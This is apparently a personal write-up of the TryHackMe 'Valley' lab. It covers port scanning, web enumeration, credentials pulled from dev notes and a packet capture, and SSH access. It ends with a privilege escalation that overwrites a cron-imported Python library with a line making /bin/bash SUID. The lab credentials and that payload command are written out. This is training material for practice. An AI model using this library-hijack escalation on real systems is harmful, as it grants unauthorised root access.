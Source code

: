 ```yaml
---
title: "Valley"
date: 2023-09-14 17:00:00 +500
categories: [THM, easy machines]
tags: [] 
---
```


<style>
  p {
    text-align: justify;
  }
</style>


10.10.211.240


quick nmap scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
37370/tcp open  unknown
```

more detailed nmap scan to see whats running on that port nmap -sV -p22,80,37370 10.10.211.240

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```

the webpage appears to be a photography company 


lets enumerate the website.

gobuster

```
```

static is a listing of files?

further enum on that

/00 found

```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```

posible username `valleyDev`, 


login page under `/dev1243224123123`

lets check the source code first, and in the dev.js file theres a lot of useful information, we get how the login is proccesed and the credentials

```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

we get that potencially the credentials we used could be used on the ftp server or the ssh

so lets try connect, remeber that the ftp server is on a different port so it'll be


```
ftp <IP> <PORT>
```

and we get access!

inside theres 3 log files?
```
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
```


lets see the packets

the ftp file shows that anonymous login was available

http1 i dunno

htpp2 - filter out by http - get the form credentials

```
Form item: "uname" = "valleyDev"
Form item: "psw" = "ph0t0s1234"
```


   
i tried to login to the website, but i couldnt, anyways it was expected since the code only works for 1 credential and it wasnt it, so ill try to login to the ssh.



and we get access, now we have the user flag under user.txt

> THM{******************}

now lets enum for files and directories
      

and we have an executable on the /home directory, its executes a login function, i tried both credentials, but it didnt worked.

i'll get it on my machine using python server and exam it 


liberty123
login to valley


crontab

/usr/lib/python3.8/base64.py


`echo "import os;os.system('chmod u+s /bin/bash')" > /usr/lib/python3.8/base64.py`

> THM{*******************************}
      